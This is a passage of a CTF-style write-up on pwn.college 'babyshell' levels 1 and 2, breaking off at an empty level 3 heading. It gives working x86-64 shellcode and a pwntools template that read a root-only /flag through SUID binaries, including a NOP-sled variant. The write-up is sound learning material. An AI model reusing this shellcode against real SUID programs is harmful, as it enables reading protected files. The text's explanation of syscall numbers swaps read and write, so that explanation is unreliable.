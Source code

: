 ```yaml
---
title: "Notes of pwn.college babyshell&sandboxing levels"
date: "2022-01-16"
author: "uoft-flyfreejay"
description: "short notes for pwn.college dojo's shellcoding exercises"
---
```


# Intro

So, here we go with the shellcoding modules. 

In these challenges, my goals are to read the contents of the `/flag` file. That file is only readable as a root. We will have to inject shellcodes into the binaries located under each `/challenge` folder to read the `/flag` using the SUID of the challenge binary. Of course, to make things more interesting each challenge will have their own special constraints. Let's get hacking!

## babyshell

### level1

- Referece: https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/

The very first level. Running `ls -al` in the `/challenge` directory reveals that the binary in the folder has SUID bit set. Constructing the shellcode:

```python
import pwn
import time

pwn.context.arch = "amd64"
pwn.context.encoding = "latin"
pwn.context.log_level = "INFO"
pwn.warnings.simplefilter("ignore")

assembly = r'''
.global _start
.intel_syntax noprefix
_start:
    mov rax, 2
    lea rdi, [rip + flag]
    mov rsi, 0
    syscall
    mov rdi, rax
    mov rsi, rsp
    mov rdx, 100
    mov rax, 0
    syscall
    mov rdi, 1
    mov rsi, rsp
    mov rdx, rax
    mov rax, 1
    syscall
    mov rax, 60
    syscall
flag:
    .ascii "/flag\0"
'''

with pwn.process(f"/challenge/{pwn.os.getenv('HOSTNAME')}") as target:
    pwn.info(target.readrepeat(1))

    target.send(pwn.asm(assembly))
    pwn.info(target.readrepeat(1))
```

I wrapped the shellcode in python and used `pwntools` to send it to the binary. This code will be the default template for the future challenges. We use set `rax` to be 2 to open the `/flag`. We then store the returned FD into `rdi` and set `rax` to 0 to write to STDOUT. Lastly, we will set `rax` to 1 to read. 

### level2

This level has a new constraint. The program can skip upto 0x800 bytes from our shellcode. The hint was that we can use a simple 1 byte instruction to fill up the space, such as `nop`. This is called `nop sleding`. I will only post the shellcode from now.

```asm
.global _start
.intel_syntax noprefix
_start:
    .rept 0x800
    nop
    .endr
    mov rax, 2
    lea rdi, [rip + flag]
    mov rsi, 0
    syscall
    mov rdi, rax
    mov rsi, rsp
    mov rdx, 100
    mov rax, 0
    syscall
    mov rdi, 1
    mov rsi, rsp
    mov rdx, rax
    mov rax, 1
    syscall
    mov rax, 60
    syscall
flag:
    .ascii "/flag\0"
```

### level3
